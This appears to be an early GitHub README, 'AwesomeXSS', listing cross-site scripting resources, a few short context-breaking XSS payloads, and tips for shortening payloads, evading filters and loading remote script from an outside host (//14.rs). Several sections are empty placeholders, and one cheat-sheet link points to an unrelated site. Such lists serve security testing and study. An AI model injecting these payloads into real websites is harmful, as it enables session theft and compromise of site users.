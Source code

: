 # AwesomeXSS
Awesome XSS stuff.

Put this repo on watch. I will be updating it regularly.
### Awesome Books
- [XSS Cheat Sheet By Brute Logic](http://google.com)

### Awesome Websites
- [brutelogic.com.br](http://brutelogic.com.br)
- [respectxss.blogspot.in](https://respectxss.blogspot.in/)

### Awesome People
- [Rodolfo Assis](https://twitter.com/brutelogic)
- [Ashar Javed](https://twitter.com/soaj1664ashar)
- [Somdev Sangwan](https://twitter.com/s0md3v) I own this repo, I can write whatever the fuck I want :v

### Awesome Reads
- [XSS in Sarahah](http://www.shawarkhan.com/2017/08/sarahah-xss-exploitation-tool.html)

### Awesome Presentations
- [How I met your girlfriend](https://www.youtube.com/watch?v=fWk_rMQiDGc)
- [How to Find 1,352 Wordpress XSS Plugin Vulnerabilities in one hour](https://www.youtube.com/watch?v=9ADubsByGos)
- [Blind XSS](https://www.youtube.com/watch?v=OT0fJEtz7aE)
- [Copy Pest](https://www.slideshare.net/x00mario/copypest)

### Awesome Context Breaking

#### Simple Context
```
<svg onload=alert()>
</tag><svg onload=alert()>
```

#### Attribute Context
```
"><svg onload=alert()>
"><svg onload=alert()><b attr="
" onmouseover=alert() "
"onmouseover=alert()//
```
#### JavaScript Context
```
'-alert()-'
'-alert()//'
'}alert(1);{'
'}%0Aalert(1);%0A{'
</script><svg onload=alert()>
```

### Awesome Payloads
Come back later


### Awesome Tags & Event Handlers
Come back later

### Awesome Methodology
Come back later

### Awesome Tools
- (XSStrike)[http://xsstrike.tk/]

### Awesome Tips & Tricks
- http:// can be shortened to //
- **document.cookie** can be shortened to **cookie**. It applies to other DOM objects as well.
- alert and other function don't need a value, so stop doing **alert(1)** and start doing **alert()**
- I have found that **confirm** is the least detected pop-up function so stop using alert.
- Quotes around attribute value aren't neccessary. You can use **&lt;script src=//14.rs&gt;** instead of **&lt;script src="//14.rs"glt;**
- The shortest independent payload is **&lt;embed src=//14.rs&gt;** (19 chars)
